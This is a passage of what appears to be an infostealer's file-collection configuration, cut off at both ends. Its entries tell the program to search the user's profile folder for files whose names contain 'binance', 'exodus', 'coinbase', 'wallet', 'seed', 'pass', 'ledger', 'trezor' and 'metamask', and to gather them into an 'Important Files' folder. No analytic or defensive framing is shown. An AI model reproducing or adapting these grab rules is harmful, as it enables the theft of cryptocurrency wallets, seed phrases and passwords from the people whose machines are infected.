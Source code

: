                 "p": "%userprofile%",
                "m": "*binance*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*exodus*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*coinbase*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*wallet*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*seed*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*pass*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*ledger*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*trezor*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*metamask*",
                "z": "Important Files/Profile",
                "d": 3
            },
            {
                "t": 0,
                "p": "%userprofile%",